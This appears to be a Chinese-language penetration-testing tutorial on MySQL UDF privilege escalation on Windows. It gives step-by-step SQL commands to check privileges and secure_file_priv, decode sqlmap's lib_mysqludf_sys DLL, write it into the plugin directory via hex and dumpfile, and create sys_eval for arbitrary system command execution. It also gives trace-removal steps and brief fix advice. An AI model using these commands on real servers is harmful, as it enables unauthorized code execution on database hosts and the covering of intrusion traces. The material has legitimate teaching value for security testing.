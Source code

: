 ## 1.简介

UDF（User Defined Function）用户自定义函数，通过添加新函数，对MySQL功能进行扩展，调用方式和系统内置函数一样，比如user()，version()等

udf文件后缀在Windows和Linux系统下分别为DLL和SO，由C、C++编写

## 2.利用条件

1、常规情况

>1. mysql配置文件secure_file_priv项为空，如果为NULL或其他目录，无法自定义udf文件导出位置
>2. CREATE权限、FILE权限（root用户默认拥有全部权限）

2、特殊情况

INSERT、UPDATE、DELETE权限

## 3.版本特性

udf提权前需要先将udf文件上传到mysql检索目录中，windows系统下各版本检索目录如下：

### 1、MySQL<5.0

导出路径随意

### 2、5.0 <= MySQL < 5.1

Win2000导出路径： C:/Winnt/udf.dll

其他Windows系统导出路径均为：C:/Windows/udf.dll或C:/Windows/system32/udf.dll

### 3、 Mysql >= 5.1

Mysql安装目录的lib\plugin文件夹下，如果mysql安装时不选择完整安装或使用集成开发环境等情况下lib\plugin目录大概率是不存在的，需要自行创建。

## 4.UDF文件位置

1、sqlmap中：sqlmap\data\udf\mysql

![image-20240604093059325](images/image-20240604093059325.png)

2、metasploit中：/usr/share/metasploit-framework/data/exploits/mysql

![image-20240604093139604](images/image-20240604093139604.png)

## 5.操作步骤

### 1、查看可导出文件位置

```
show variables like '%secure%';
```

![image-20240604093240561](images/image-20240604093240561.png)

### 2、查看当前数据库用户权限

```
select * from mysql.user where user=substring_index(user(),'@',1)\G;
```

### 3、查看mysql安装目录

```
select @@basedir as basePath from dual;
show variables like '%basedir%';
```

![image-20240604093516275](images/image-20240604093516275.png)

### 4、查看主机架构版本

![image-20240604093554314](images/image-20240604093554314.png)

### 5、查看数据库版本，判断udf文件写入位置

```
select version();
```

#### 5.1 mysql >=5.1

1、存在`lib\plugin`目录且存在webshell时，直接上传udf文件

2、存在`lib\plugin`目录但没有webshell时，以16进制编码写入udf文件

sqlmap中udf文件为防止误杀默认经过异或编码，需要用sqlmap自带的脚本线解码

```
python sqlmap/extra/cloak/cloak.py -d -i data/udf/mysql/windows/32/lib_mysqludf_sys.dll_
```

16进制编码udf文件

```
select hex(load_file('lib_mysqludf_sys_32.dll')) into dumpfile 'C:\\lib_mysqludf_sys_32.txt';
```

#####  **将16进制编码后udf文件使用dumpfile函数写入磁盘（outfile导出文件会在末尾写入新行且转义换行符，破坏二进制文件结构，dumpfile不会进行任何操作）**

```
select 0x4d5a900..... into dumpfile "C:\\Program Files\\MySQL\\MySQL Server 5.5\\lib\\plugin\\udf.dll";
```

随便选择一个数据库，创建一个表

```
use test;
create table udf(data longblob);
```

insert 插入udf文件数据，如果一次性插入长度有限制，则先insert一部分，再update拼接添加

```
insert into udf(data) values (0x4D...)
```

导出表中数据到系统磁盘

```
select data from udf into dumpfile "C:\\Program Files\\MySQL\\MySQL Server 5.5\\lib\\plugin\\udf.dll";
```

3、不存在`lib\plugin`目录，但有webshell，使用webshell创建lib\plugin目录

4、不存在 lib\plugin目录也没有webshell，方法待定

#### 5.2 mysql<5.1

1、有webshell时，通过webshell上传udf文件

2、无webshell时，使用dumpfile通过16进制数据流写入udf文件

### 6、创建命令执行函数

使用winhex打开udf文件，可以看到udf文件提供的函数

![image-20240604095146767](images/image-20240604095146767.png)

sys_eval，执行任意系统命令，并将输出返回。

sys_exec，执行任意系统命令，并将退出码返回（无命令执行结果回显）。

```
create function sys_eval returns string soname 'udf.dll';
```

### 7、命令执行

```
select sys_eval("whoami")；
```

![image-20240604095229644](images/image-20240604095229644.png)

## 6、痕迹清除

```
drop table udf; 删除表
drop function sys_eval; 删除函数
```

## 7、修复建议

1、mysql配置文件中secure_file_priv配置项设置为NULL或非mysql/lib/plugin目录

2、数据库用户确保最小权限原则

## 8、UDF Linux提权

利用条件：除windows udf提权中的内容外，还需要plugin目录的写入权限。


